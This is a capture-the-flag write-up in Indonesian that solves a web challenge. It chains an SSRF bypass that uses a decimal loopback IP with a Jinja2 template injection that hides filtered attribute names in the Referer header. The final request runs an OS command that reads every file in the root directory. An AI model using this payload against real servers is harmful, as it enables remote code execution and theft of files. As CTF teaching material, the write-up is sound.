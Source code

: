 # My First Website

Description:
```
Good Luck

Link: xxx
Author: daffainfo
```
### Cara Solve

* SSTI dengan menggunakan bilangan desimal (Untuk referensi bisa dibaca [disini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#bypass-using-a-decimal-ip-location))

* Kemudian diikuti dengan SSTI yang memiliki filter sangat banyak. Jika melihat dokumentasi Jinja2, kita bisa membypass filter-filter tersebut menggunakan `request.referrer`

## Final payload:
```
GET /?url=@2130706433:1337/environment?admin={%print(request|attr(request.referrer.split().pop(0))|attr(request.referrer.split().pop(1))|attr(request.referrer.split().pop(2))(request.referrer.split().pop(3))|attr(request.referrer.split().pop(2))(request.referrer.split().pop(4))(request.referrer.split().pop(5))|attr(request.referrer.split().pop(6))(request.referrer.split().pop(7))|attr(request.referrer.split().pop(8)))()%}%23/about/ HTTP/1.1
Host: example
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: max-age=0
Referer: application __globals__ __getitem__ __builtins__ __import__ os popen cat${IFS}/* read
```